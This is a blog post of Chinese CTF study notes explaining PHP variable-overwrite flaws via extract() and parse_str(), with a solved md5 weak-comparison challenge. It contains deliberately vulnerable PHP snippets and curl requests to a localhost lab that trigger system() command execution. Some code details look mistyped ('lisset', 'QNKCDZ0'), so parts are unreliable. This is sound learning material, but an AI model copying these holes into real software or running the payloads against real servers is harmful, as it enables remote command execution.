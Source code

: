 ```yaml
---
title: 20241207CTF学习笔记4
date: 2024-12-07
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true










---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第22天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第4章：web基础题-03-变量覆盖问题

### 变量覆盖：

#### **定义：**用传参的值替换原有变量的值

#### **举例：**

```php
<?php
$a="abc";
$a="def";
echo($a);
?>
```

变量覆盖常考的三个函数：

1. Extract() 最重要
2. Parse_str()
3. Import_requests_variables()//deprecated(弃用) in php>=5.4.0

### Extract()函数：

![image-20241207211457286](/img/ctfLearn/image-20241207211457286.png)

#### **定义：**

将数组的键做为变量，将数组的值作为变量的值

图中这里就是用Cat覆盖掉了Original，我们Extract()函数的本质是为了开发，只是演变歪了

#### **入侵示例：**

```php
<?php
$arr = $_GET['arr'];
extract($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```shell
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr[d]=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr[d]=system，在给到extract()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### Parse_str()函数：

#### **定义：**

把查询字符串解析到变量中。

#### **方法举例：**

```php
<?php
parse_str("name=Bill&age=60");
echo $name."<br>";
echo $age;
?>
```

```php
<?php
parse_str("name=Bill&age=60",$myArray);
print_r($myArray);
?>
```

#### **入侵示例：**

对php版本有要求，视频中用的是php5

```php
<?php
$arr = $_GET['arr'];
parse_str($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr=d=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr=d=system，在给到parse_str()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### **结论：**

变量覆盖不管是用extract()函数还是parse_str()函数，变量覆盖或者是创建变量本身都没有安全风险，但后续的代码有部分危险操作，所以导致了整个的风险

### 综合题

题目源代码：

```php
<?php
if(!lisset($_GET['id'])){
	show_source(__FILE__);
	die;
}
include_once('flag.php');
$a='TESTCTF';
$id=$_GET['id'];
@parse_str($id);
if($a[0]!='QNKCDZ0' && md5($a[0]) == md5('QNKCDZ0')){
	die($flag);
}else{
	die('emmm');
}
```

我们需要传入以下参数

```java
//首先，我们看看md5('QNKCDZ0')的值，发现是个科学计数法的形式，我们需要让md5($a[0])也是一个科学计数法的形式，就能让他两弱等于
//其次，我们看到@parse_str($id);需要我们理解parse_str的用法，传入一个a=b的形式，同时把a替换为a[0]，把b替换为s878926199a，让它满足a[0]不是QNKCDZ0且md5相等的条件

?id=a[0]=s878926199a
```


